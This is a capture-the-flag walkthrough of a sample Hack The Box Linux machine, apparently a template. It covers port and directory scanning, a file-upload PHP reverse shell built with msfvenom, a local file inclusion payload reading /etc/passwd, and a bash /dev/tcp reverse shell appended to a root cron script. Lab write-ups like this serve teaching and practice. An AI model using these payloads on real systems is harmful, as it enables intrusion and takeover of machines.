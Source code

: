 
---
title: "Sample HTB Machine - Walkthrough"
date: 2025-07-23
draft: false
tags: ["htb", "linux", "web", "privilege-escalation"]
categories: ["writeups"]
difficulty: ["Medium"]
platform: ["Linux"]
---

![MACHINE](https://app.hackthebox.com/machines/sample)

## Generic Information

**Name of the Machine**: Sample Machine  
**Machine IP**: 10.10.10.XXX  
**Operating System**: Linux  
**Difficulty**: Medium  
**Publication Date**: July 23, 2025  

---

## Reconnaissance - Enumeration

### Service Scan
```bash
nmap -sCV -vv 10.10.10.XXX
```

Key findings from the service scan:
- Port 22: SSH OpenSSH 8.2p1
- Port 80: HTTP Apache 2.4.41
- Port 443: HTTPS Apache 2.4.41

### All Ports Scan
```bash
nmap -sS -T4 -p- -vv 10.10.10.XXX
```

Additional ports discovered:
- Port 8080: HTTP Alternative service

### Directory Busting
```bash
gobuster dir -w /usr/share/dirbuster/directory-list-2.3-small.txt -u http://sample.htb/ -t 20
```

Interesting directories found:
- /admin
- /uploads
- /backup

### Subdomain Enumeration
```bash
ffuf -w /usr/share/wordlists/discovery/subdomains-top1million-20000.txt -u http://sample.htb -H "Host: FUZZ.sample.htb"
```

Subdomains discovered:
- admin.sample.htb
- api.sample.htb

---

## Exploit #1 - Web Application Vulnerability

### Initial Access Vector

The web application running on port 80 contains a file upload vulnerability that allows arbitrary file upload without proper validation.

**Steps:**
1. Navigate to `/uploads` endpoint
2. Upload a PHP reverse shell disguised as an image
3. Access the uploaded file to trigger the shell

```bash
# Generate reverse shell
msfvenom -p php/reverse_php LHOST=10.10.14.XXX LPORT=4444 -f raw > shell.php

# Set up listener
nc -lvnp 4444
```

### Exploitation Process

1. **File Upload Bypass**: Modified the Content-Type header to `image/jpeg`
2. **Shell Execution**: Accessed `http://sample.htb/uploads/shell.php`
3. **Initial Foothold**: Gained access as `www-data` user

---

## Exploit #2 - Local File Inclusion

### Vulnerability Analysis

The application's file parameter is vulnerable to Local File Inclusion (LFI), allowing access to sensitive system files.

**Payload:**
```
http://sample.htb/index.php?file=../../../../etc/passwd
```

### Information Gathering

Through LFI, discovered:
- User accounts in `/etc/passwd`
- SSH keys in `/home/user/.ssh/`
- Application configuration files

---

## Privilege Escalation

### Enumeration

After gaining initial access, performed standard privilege escalation enumeration:

```bash
# Check sudo permissions
sudo -l

# Look for SUID binaries
find / -perm -4000 2>/dev/null

# Check for interesting files
find / -name "*.conf" -type f 2>/dev/null
```

### Escalation Vector

Discovered that the `backup` script runs as root via cron job and is writable by the current user.

**Steps:**
1. Modify the backup script to include a reverse shell
2. Wait for the cron job to execute
3. Receive root shell

```bash
# Add to backup script
echo 'bash -i >& /dev/tcp/10.10.14.XXX/5555 0>&1' >> /opt/backup.sh

# Set up listener
nc -lvnp 5555
```

## Key Takeaways

1. **File Upload Security**: Always validate file types and contents, not just extensions
2. **Input Validation**: Properly sanitize user input to prevent LFI attacks
3. **Privilege Management**: Regularly audit file permissions and cron jobs
4. **Defense in Depth**: Multiple security layers could have prevented this compromise

---

*This writeup demonstrates common web application vulnerabilities and privilege escalation techniques for educational purposes.*
